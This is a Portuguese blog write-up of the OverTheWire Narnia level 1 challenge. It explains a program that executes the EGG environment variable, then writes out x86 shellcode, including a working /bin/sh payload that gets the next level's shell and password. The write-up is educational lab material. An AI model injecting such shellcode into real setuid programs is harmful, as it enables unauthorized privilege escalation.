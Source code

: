 ```yaml
---
layout: default
title: Level 1 - Execução de código de variáveis de ambiente - [OverTheWire CTF – Narnia] write-up
date: 2016-12-13 17:32
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li><a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">Level 0</a></li>
</ul>

Levei mais tempo do que deveria para resolver esse chall e isso apenas prova o que é ter problemas em níveis fundamentais do estudo de exploitation. Fiquei feliz por ter demorando tempo suficiente para aprender novos conceitos e ter estudado uma boa quantidade de assuntos.

Depois da putaria de se justificar para ninguém, hora de write-up o/

Feita a conexão ssh com o servidor <a href="http://overthewire.org/wargames/narnia/">narnia do Over The Wire</a> usando o usuário narnia1 e o pass encontrado como a <a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">flag do último nível</a>, fui em <strong>/narnia</strong> e executei o chall da vez:

```narnia1@melinda:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG```

Hum, ele deseja que se coloque algo na <a href="https://www.todoespacoonline.com/w/2015/07/variaveis-de-ambiente-no-linux/">varíavel de ambiente</a> <strong>EGG</strong> para que possa executar. Vamos tentar e ver no que vai dar.

```narnia1@melinda:/narnia$ EGG=BBBB
narnia1@melinda:/narnia$ export EGG
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault
```

Ops, quebramos algo.

Sem perder tempo, hora de um <em>cat narnia1.c</em> e descobrir o que ele quer fazer com EGG.

https://gist.github.com/anonymous/bfde74bdbf17ec578a47ff5cfeb8be08

É bastante simples. No ínicio da função <strong>main</strong> (linha 4) é declarado um ponteiro de função<sup>(<a href="http://www.dca.fee.unicamp.br/cursos/EA876/apostila/HTML/node144.html">1</a>, <a href="http://www.cprogramming.com/tutorial/function-pointers.html">2</a>)</sup> chamado <strong>ret</strong>. A sacada aqui é observar como, na linha 12, ret recebe o valor de EGG graças a função <a href="http://man7.org/linux/man-pages/man3/getenv.3.html">getenv</a>, mas não o valor literal de EGG, e sim o endereço que aponta para o ínicio do valor guardado por EGG.

Tudo isso só quer dizer que na linha 13 de main quando ret é chamada, ela irá pular para o ínicio das possíveis instruções que estarão na variável de ambiente. Por isso que o processo vai cuspir um <a href="https://en.wikipedia.org/wiki/Segmentation_fault">segmentation fault</a> se encontrar quatro B's.

Me confundi com esse simples comportamento e levei um tempo escrevendo, debuggando e testando código. Vou abrir um parentêses gigante para falar de como entendi:

<hr />

O código final que me ajudou a entender sobre o chall foi este:

https://gist.github.com/anonymous/f1f7ffe8a22b12effaac19b591595362

Dentro de uma pasta no próprio /tmp do servidor, compilei meu código (passando argumento para o gcc compilar uma versão de 32 bits porque o pc em que o ctf está rodando tem 64) e criei e exportei a variável de ambiente.

```narnia1@melinda:/tmp/1212$ gcc -m32 teste.c -o teste
narnia1@melinda:/narnia$ EGG=BLABLA
narnia1@melinda:/narnia$ export EGG
```

Depois disso, foi hora de ir no gdb e analisar.

https://gist.github.com/anonymous/7ffa379a0ab62461ec2ed533f94fdd0d

Resolvi omitir o disas da função main (linha 4) para não ocupar espaço no post de forma desnecessária. É relevante só dizer que na linha 5 coloquei um breakpoint na última linha da função (main+201).

Logo executei meu programa e vi ele imprimindo os valores que mandei.

Na primeira linha da execução, ele imprime o valor armazenado em EGG no formato de string ("BLABLA"). Na segunda, o ponteiro para EGG (0xffffd8a0). Na terceira, no formato inteiro (-10080). Na quarta linha da execução, imprimi o ponteiro não inicializado de ret e em seguida imprimi o mesmo depois de ele ter ganho o valor de getenv("EGG").

Depois de todo o trabalho pesado do programa, o breakpoint entra em ação. Meu objetivo era poder checar e ter certeza do valor que ret receberia e para onde ele apontava.

Usando x/s + o endereço que ret ganhou, pude ver que o BLABLA estava lá.

<hr />

Após entender o código do chall, ficou fácil ter ideia do que fazer em seguida: enriquecer EGG com instruções válidas, de preferência instruções que dessem uma shell! Ou seja, um <a href="http://www.mentebinaria.com.br/zine/edicoes/1/ConstruindoShellcodes.txt">shellcode</a>!

Assim como no <a href="https://brenn0.wordpress.com/2016/12/06/level-0-overthewire-ctf-narnia-write-up/">chall anterior</a>, usarei o python para passar as instruções em um formato que o processo entenda e execute.

Claro que poderia copiar algum <a href="https://www.google.com.br/search?q=a+%2Fbin%2Fsh+shellcode&amp;oq=a+%2Fbin%2Fsh+shellcode&amp;aqs=chrome..69i57j69i58j69i60j69i64l3.7092j0j9&amp;sourceid=chrome&amp;es_sm=122&amp;ie=UTF-8">shellcode pronto</a> e tentar fazer funcionar com o chall, mas preferi ir atrás de mais conhecimento e acabei encontrando um ótimo paper ensinando a construir shellcodes: <a href="https://www.exploit-db.com/papers/13224/">https://www.exploit-db.com/papers/13224/</a> (<a href="http://www.mentebinaria.com.br/zine/edicoes/1/ConstruindoShellcodes.txt">aqui</a> tem um outro que está em pt-br, só dei uma lida por cima mas parece ser bem equivalente ao outro).

Com a ajuda do paper, criei shellcodes que não fazem nada, só chamam exit com o código de retorno 0:

```narnia1@melinda:/narnia$ EGG=`python -c 'print \x31\xc0\xb0\x01\x31\xdb\xcd\x80'`
narnia1@melinda:/narnia$ export EGG
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
narnia1@melinda:/narnia$ echo $?
0```

Você pode ver que dessa vez não houve segmentation fault.

As crases, no ínicio e no fim do comando, servem para avisar que não quero a string "python -c..." e sim o resultado desse comando armazenado em EGG.

Fiquei brincando um tempo e criei ainda mais shellcodes inúteis:

```narnia1@melinda:/narnia$ EGG=`python -c 'print \xeb\x19\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb2\x0e\x59\xb3\x01\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x62\x72\x65\x6e\x6e\x6f\x77\x61\x73\x68\x65\x72\x65'`
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
brennowasherenarnia1@melinda:/narnia$```

Ainda pensei em escrever sobre a criação desses belos códigos, mas preferi não reescrever o que já está bem documentado pela internet por gente que sabe mais do que eu. Me refiro aos links que deixei lá em cima. Não deixe de passar por eles. Seria muito kiddie da vossa parte passar o resto da vida só no copy e paste de shellcodes dos outros.

Mas agora é hora de copiar e colar um shellcode pronto que chama /bin/sh e resolver esse chall!

O código assembly referente ao shellcode que usei está no fim do <a href="https://www.exploit-db.com/papers/13224/">paper</a> que me ensinou a escrever os meus próprios.

```narnia1@melinda:/narnia$ EGG=`python -c 'print \x31\xc0\xb0\x46\x31\xc9\x31\xdb\xcd\x80\xeb\x18\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x31\xc0\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'`
narnia1@melinda:/narnia$ echo $EGG
1��F1�1�̀�[1��C��C
1��
��S
�����/bin/sh
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
736372697074206b6964646965
$ ```

Uhul.
